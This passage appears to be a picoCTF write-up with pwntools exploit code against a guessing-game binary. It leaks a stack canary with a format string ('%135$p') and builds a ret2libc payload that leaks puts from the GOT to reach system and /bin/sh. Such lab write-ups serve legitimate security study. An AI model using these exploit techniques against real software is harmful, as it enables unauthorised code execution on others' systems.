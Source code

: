 
```python
from pwn import *

p = remote('shape-facility.picoctf.net', 64740)

magic_number = b"-3727"
p.recvuntil(b"What number would you like to guess?\n")
p.sendline(magic_number)

# Send a payload: format string + padding + marker
payload = b"%135$p" + b"A"*500 + b"END"
p.sendline(payload)

# Read response until marker "Congrats: "
result = p.recvuntil(b"Congrats: ")
print(result.decode())

p.interactive()
```

you have to addjust the offset if it sayes `4141414141` than just move forward if some otjher value comes than confirm if it is an stack canary. `stack canary` usually ends with `0x00`
so it will be easy to spot them. for me the stack canary was at `135` offset 


![canary](./img/remote_canary.png)

---


3. **Leaking `puts()` Address** – allows calculation of the libc base to compute `system()` and `/bin/sh` addresses.


We need the **libc base address** to call `system()` and pass `/bin/sh`. We do this by leaking the address of `puts` in the **GOT**:

```python
p.recvuntil(b"What number would you like to guess?\n")
p.sendline(magic_number)   # trigger win() again


payload = flat(
    b"A" * 512,
    p32(canary),
    b"B" * 12,
    puts_plt,
    main_addr,
    puts_got
)


p.sendlineafter("Name? ", payload)
out = p.recvline()
out = p.recvline()
```